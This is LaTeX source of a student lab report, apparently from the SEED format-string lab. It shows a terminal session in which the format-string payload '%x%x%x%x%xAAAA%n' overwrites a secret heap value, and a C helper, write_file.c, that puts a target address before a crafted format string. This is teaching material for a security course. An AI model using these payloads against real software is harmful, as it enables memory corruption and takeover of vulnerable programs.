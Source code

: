 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of overwriting memory with a specified value,
	label=printf:change2,
	breaklines=true,
  float=tb
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbff74c4c (on stack)
The variable secret’s value is 0x 9b18008 (on heap)
secret[0]’s address is 0x 9b18008 (on heap)
secret[1]’s address is 0x 9b1800c (on heap)
Please enter a decimal integer
162627596
Please enter a string
%x%x%x%x%xAAAA%n
bff74c50bff74cd0bff74cc400AAAA
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x1e
\end{lstlisting}

\subsection{Memory randomization}

Last part of the task was to show if we can perform the four task we executed before if we didn't have the extra \texttt{scanf} method that allows us to store an integer from user input into \texttt{int\_input} variable in the vulnerable program.

Not having the additional user input doesn't stop us from injecting our desired address into the \texttt{user\_input} array that we use in the second \texttt{scanf}. However we could not specify address from the keyboard, because letters and number of the address would be transformed into ASCII characters, which is not what we need.

We used, however, a program \texttt{write\_file.c} so it can prepare input for us that will contain the address at the beginning.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	caption=Example of overwriting memory with a specified value,
	label=printf:writefilec,
	breaklines=true,
  float=tb
}
\begin{lstlisting}
#include <sys/stat.h>
#include <fcntl.h>
int main()
{
  char buf[1000];
  int fp, size;
  unsigned int *address;
  /* Putting any number you like at the beginning of the format string */
  address = (unsigned int *) buf;
  
  /* Put address of secret[1] in first four bytes */
  *address = 0x0804b01c;
  
  /* Getting the rest of the format string */
  scanf("%s", buf+4);
  size = strlen(buf+4) + 4;
  printf("The string length is %d\n", size);
  
  /* Writing buf to "mystring" */
  fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
  if (fp != -1) {
    write(fp, buf, size);
    close(fp);
  } else {
    printf("Open failed!\n");
  }
}
\end{lstlisting}
\end{document}
